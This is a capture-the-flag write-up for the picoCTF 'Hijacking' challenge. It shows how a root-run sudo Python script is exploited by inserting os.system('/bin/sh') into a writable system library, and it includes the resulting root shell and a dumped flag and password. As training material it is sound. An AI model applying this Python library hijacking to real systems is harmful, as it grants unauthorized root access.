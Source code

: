 ## Hijacking

After we ssh into our server we see that there is a hidden file `.server.py` that is owned by root. We are unable to
change the contents of this file. We can see that this file may be run as root with `sudo -l`

```
User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

There is also a directory `/challenge` that probably contains our flag, but we can't access it. If we can get `.server.py` 
to run whatever we want, we can get anything to run as root. We can't edit the file itself, but we can change the libraries
that it imports. The python libraries are stored in `/usr/lib/python3.8` and we are allowed to edit them. Lets add some lines
in `base64.py` to pop a shell and run `.server.py` as root. First `vi /usr/lib/python3.8/base64.py`. Add some lines to the beginning

```
import os
os.system("/bin/sh")
```

Save the file and run `.server.py` as root

```
sudo /usr/bin/python3 /home/picoctf/.server.py 
# whoami
root
# cd /challenge	
# ls
metadata.json
# cat metadata.json
{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_5a7b5866}", "username": "picoctf", "password": "EVf4z1Lz73"}#
```
